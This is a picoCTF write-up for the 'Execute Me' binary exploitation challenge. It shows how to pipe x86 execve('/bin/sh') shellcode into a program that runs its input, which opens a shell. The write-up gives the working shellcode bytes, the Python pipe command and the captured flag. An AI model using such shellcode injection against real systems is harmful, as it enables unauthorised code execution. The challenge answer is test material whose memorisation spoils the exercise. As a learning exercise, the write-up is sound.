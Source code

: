 ## Execute Me - 80 (Binary Exploitation) ##
#### Writeup by Oksisane

Created: 2014-11-09 13:07:47

Last modified: 2014-11-10 00:38:39

### Problem ###

This program will run whatever you send to it! Try to get the flag! The binary can be found at `/home/execute/` on the shell server. The source can be found [here](https://picoctf.com/problem-static/binary/ExecuteMe/execute.c).

### Hint ###

You can get the flag in a number of ways, but the easiest would be to run a shell.

## Answer ##

### Overview ###

Use the program to execute some shellcode.

### Details ###

Let's start by running the program on the server. When we run it and enter `/bin/sh` the following appears:

```bash
pico89244@shell:~$ cd /home/execute/
pico89244@shell:/home/execute$ ./execute
/bin/sh
Segmentation fault (core dumped)
pico89244@shell:/home/execute$
```

Huh, that's not good. Looking a little closer at the code we see this:
```c
read(0, buf, 128);
((function_ptr)buf)();
```
So the program reads in our buffer and executes it. However, it is not executing the buffer as we would expect, with the `system()` command to run a command in the shell. Instead, it is executing the **assembly commands** that we put in the buffer. The hint tells us to run a shell, so we should use `shellcode`. Shellcode typically is in the form of a bunch of hex values that can be executed to perform a function such as running `cat` or `/bin/sh`. Many websites provide shellcode, such as [shell-storm](http://shell-storm.org/shellcode/). For now, let's use [this shellcode](http://shell-storm.org/shellcode/files/shellcode-752.php) to run `execve("/bin/sh")`
```bash
pico89244@shell:/home/execute$ ./execute
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
Segmentation fault (core dumped)
pico89244@shell:/home/execute$

```
Huh, that still didn't work. Our next task is to `pipe` the hex values into the program instead of type them in. Right now, the program interprets `\x31`as 4 separate ascii values instead of ascii value `0x31` (or 49 in base 10). To do this we can use Python:
```bash
pico89244@shell:/home/execute$ (python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'") | ./execute
pico89244@shell:/home/execute$
```
This uses Python to print our hex characters into the program. Note the use of a `"` to encapsulate the Python code  and the `'` to encapsulate the `print` command. This time, we get no error but still no shell! The shell is successfully running with this shellcode but is exiting before we can input anything into it. The final step here is to add a `cat` to the end of our Python command, which prevents this.
```
pico89244@shell:/home/execute$ (python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | ./execute
whoami
pico89244
cat flag.txt
shellcode_is_kinda_cool
```
Our shell runs successfully and we get our flag!
### Flag ###

    shellcode_is_kinda_cool


